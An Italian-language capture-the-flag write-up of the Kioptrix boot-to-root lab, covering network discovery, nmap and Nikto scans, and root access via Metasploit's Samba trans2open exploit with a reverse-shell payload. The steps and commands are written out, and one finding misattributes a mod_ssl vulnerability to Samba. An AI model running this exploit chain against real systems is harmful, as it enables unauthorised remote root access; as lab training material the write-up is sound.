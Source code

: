 Kioptrix è una challenge boot to root, l'obiettivo è ottenere l'accesso root tamite tools e tecniche di valutazione delle vulnerabilità e di exploitation.

![Kioptrix1](https://user-images.githubusercontent.com/104534892/236891421-44073633-88ad-4558-89e5-fdcae109936a.png)

Approccio:
1. Network discovery 
2. Enumerazione 
3. Exploitation 
4. Ricerca flag

# 1. Network Discovery

Per prima cosa è necessario ottenere l'indirizzo IP della vittima, quindi eseguiamo una scansione tramite netdiscover:

>Cos'è netdiscover? è uno strumento di ricognizione per reti wireless utilizzato per rilevare passivamente host o cercarli attivamente mediante richieste ARP (Address Resolution Protocol).

Il comando per eseguire la scansione è: `sudo netdiscover`

![Kioptrix4](https://user-images.githubusercontent.com/104534892/236891485-df50e551-af9d-4d3c-bfaf-a2cf2bea4115.png)

Netdiscover ci restituisce il nome dell'host vittima "PCS Sysemtechnik", il suo indirizzo IP (in questo caso 10.0.2.4) e l'indirizzo MAC.

# 2. Enumerazione

Ottenuto l'indirizzo IP possiamo utilizzare Nmap per verificare servizi, protocolli e porte aperte dell'host.

>Cos'è Nmap? Acronimo di Network Mapper è un tool open source per il rilevamento ed il controllo della sicurezza di rete, utilizza pacchetti IP raw per determinare quali host sono disponibili sulla rete, quali servizi (nome e versione), quali sistemi operativi (e la versione) e che tipo di firewall sono in uso e molto altro.

Eseguiamo una scansione tramite il comando: `sudo nmap 10.0.2.4 -sV -p- -T4 -O`
- -sV per identificare i servizi in esecuzione e la rispettiva versione
- -p- esegue una scansione di tutte le porte
- -T4 è per una scansione più aggressiva e rapida
- -0 per identificare il sistema operativo

![Kioptrix5](https://user-images.githubusercontent.com/104534892/236891538-36720eab-9ea2-4828-9585-8b350f5c0cbe.png)

Dalla scansione risulta aperta la porta 80/tcp che esegue Apache: controllando il sito web per verificare la presenza di eventuali web app di terze parti exploitabili questo ci riconduce soltanto ad una pagina di test che non ci fornisce alcuna informazione aggiuntiva, nemmeno il codice sorgente risulta essere utile.

![Kioptrix6](https://user-images.githubusercontent.com/104534892/236891571-a4e8d6df-fbfe-46c7-813f-7ff3c528572d.png)

Dalla precedente scansione effettuata con nmap si può notare che la porta 139/tcp esegue un netBIOS Samba smbd, ovvero un protocollo client-server per l'accesso a file e directories; Cerchiamo eventuali vulnerabilità nella versione in uso tramite Nikto:
`nikto -h http://10.0.2.4`

![Kioptrix7](https://user-images.githubusercontent.com/104534892/236891608-df43baa8-b967-41b1-b765-1cd21f94c167.png)

Dal risultato della scansione possiamo notare che la versione in utilizzo di Samba (2.2.1a) è vulnerabile ad un remote buffer overflow che ci permette di accedere alla shell da remoto e compromettere la VM vittima:
`mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082), OSVDB-756.`
trovata la vulnerabilità è necessario cercare un exploit, dopo alcune ricerche ho scoperto che il modulo di Metasploit da caricare è /exploit/linux/samba/trans2open (source: https://www.exploit-db.com/exploits/16861).

# 3. Exploitation

Per cercare l'exploit ed ottenere l'accesso utilizziamo Metasploit

>Cos'è Metasploit? è un framework open source per lo sviluppo, il testing e l'esecuzione codici exploit 
	
![Kioptrix8](https://user-images.githubusercontent.com/104534892/236891639-369449f1-af7b-4b35-a700-6ffe187bbcf7.png)
- `sudo msfdb init`
- `msfconsole`
avviamo il database come user "msf" e la console, in seguito cerchiamo la vulnerabilità ovvero trans2open: `search trans2open`

![Kioptrix9](https://user-images.githubusercontent.com/104534892/236891707-887aae6f-a647-42f0-807d-cb177a23749d.png)

selezioniamo il modulo dell'exploit trovato in precedenza `use exploit/linux/samba/tran2open` e visualizziamo i dettagli del payload da settare tramite `options`:

![Kioptrix10](https://user-images.githubusercontent.com/104534892/236891738-acc3c456-eecd-42db-afa3-588eecbbe61a.png)

In seguito impostiamo:
- il remote host (RHOST) `set RHOST10.0.2.4`
- il payload `set payload linux/x86/shell_reverse_tcp`
e lanciamo l'exploit `exploit` e generiamo la shell:

![Kioptrix12](https://user-images.githubusercontent.com/104534892/236891766-de3d8c41-ff09-4cb3-b77a-65624ea127a6.png)

Ottenuto l'accesso alla VM vittima verifichiamo i privilegi:

![Kioptrix13](https://user-images.githubusercontent.com/104534892/236891783-208d9439-2dc3-4b16-a1a7-b0a3bc944d0a.png)

Abbiamo ottenuto l'accesso root alla macchina, adesso basta generare una shell TTY tramite `/bin/bash -i` per utilizzare la shell bash.

# 4. Ricerca Flag

Prima di cercare la flag diamo un'occhiata all'history dei comandi utilizzati nella shell tramite `history`:

![Kioptrix14](https://user-images.githubusercontent.com/104534892/236891812-5a528c9b-87df-452c-83a2-5cf906aff2d9.png)

notiamo che è stato utilizzato il comando mail, quindi accediamo alla directory come utente root per leggere le mail salvate:

![Kioptrix15](https://user-images.githubusercontent.com/104534892/236891829-19387e6f-80b0-4ac9-9a32-8854a67c53c0.png)

ctf completata, abbiamo ottenuto la flag.
